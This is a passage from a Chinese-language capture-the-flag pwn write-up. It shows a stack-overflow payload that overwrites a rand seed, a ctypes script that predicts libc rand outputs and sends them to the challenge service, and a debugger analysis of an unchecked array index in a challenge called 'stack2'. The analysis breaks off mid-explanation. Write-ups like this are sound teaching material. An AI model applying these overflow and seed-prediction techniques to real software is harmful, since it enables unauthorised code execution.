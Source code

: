 -0000000000000050 buf             db 55 dup(?)

-0000000000000019 var_19          db ?

-0000000000000018 var_18          dq ?

-0000000000000010 seed            dd 2 dup(?)

可以通过溢出覆盖seed[0]的值

**payload**
```python
payload=0x40*"a"+p64(0)
```

**注意该题给出libc，因此需要从libc中调用rand函数发送**

```python
libc = cdll.LoadLibrary("libc.so.6")

a=[]
for i in range(50):
	a.append(libc.rand()%6+1)
print(a)
for i in a:
	p.recv()
	print(p.recv())
	p.sendline(str(i))
p.interactive()
```
## stack2
本题的难点是找出栈溢出，本题的栈溢出并不是常规的 read 这种输入输出流，而是数组没有边界检查导致的，这样的栈溢出比较隐蔽。

栈溢出：
```c
if ( v6 != 3 )
        break;
puts("which number to change:");
__isoc99_scanf("%d", &v5);
puts("new number:");
__isoc99_scanf("%d", &v7);
v13[v5] = v7;
```
1、**值得注意的是**当输入3进行change number的时候，直接将v7赋值给数组v13[v5]，没有对v5进行范围检查，从而会造成ROP攻击。这代表着我们可以修改数组以及数组后面的任何数据。

2、为此，我们需要知道栈顶距离返回地址的位置，才能在主函数返回时，直接执行我们的shellcode。

   按照writeup，下了两个断点，分别是在给v13数组赋初值和返回retn的时候。

   为此，下两个断点，分别是0x80486D5和0x80488F2。

   *EAX  0xffffd138 ◂— 0x1(数组的首地址)。

   *ESP  0xffffd1bc —▸ 0xf7df1ef1 (__libc_start_main+241) ◂— add    esp, 0x10(函数的返回地址)//当函数运行到return语句的时候，栈顶一定是返回地址。

